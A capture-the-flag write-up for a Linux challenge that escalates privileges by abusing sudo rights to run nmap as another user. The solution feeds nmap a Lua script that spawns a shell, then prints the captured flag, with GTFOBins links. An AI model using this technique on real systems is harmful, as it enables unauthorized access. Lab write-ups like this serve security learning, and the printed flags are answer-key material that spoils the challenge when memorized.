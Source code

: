 ### Flag

```
HF-c3ae06f70363066574dc6f52338df7f5
```

## Nmap

* **Track:** linux
* **Points:** 7

### Challenge

> On the box, you are allowed to use nmap as another user. What can you do with these new privileges? Are you able to read the secret files from the user's home directory?
> Note: use the SSH key from the first Linux challenge to log into the box.

### Solution

    $ sudo -l
    Matching Defaults entries for cerealkiller on ip-172-31-16-57:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User cerealkiller may run the following commands on ip-172-31-16-57:
        (phantom) NOPASSWD: ALL
        (vimuser) NOPASSWD: /usr/bin/vim
        (nmapuser) NOPASSWD: /usr/bin/nmap
        (pathuser) NOPASSWD: /home/pathuser/pathuser.sh
    $ ls -l /usr/bin/nmap
    -rwxr-xr-x 1 root root 2961432 Apr 16  2018 /usr/bin/nmap



    call bash
    $ bash

    https://vk9-sec.com/nmap-privilege-escalation/
    https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/
    https://gtfobins.github.io/gtfobins/nmap/#sudo

    nancy=$(mktemp)
    echo 'os.execute("/bin/sh")' > $nancy
    echo $nancy = find the path
    chmod o+r /tmp/xxxxxx
    sudo -u nmapuser nmap --script=$nancy
    whoami
    cd /home/nmapuser
    cat flag.txt
    HF-661a224a12a754dd176b229f5de7ff4a

### Tool

* https://gtfobins.github.io/gtfobins/nmap/
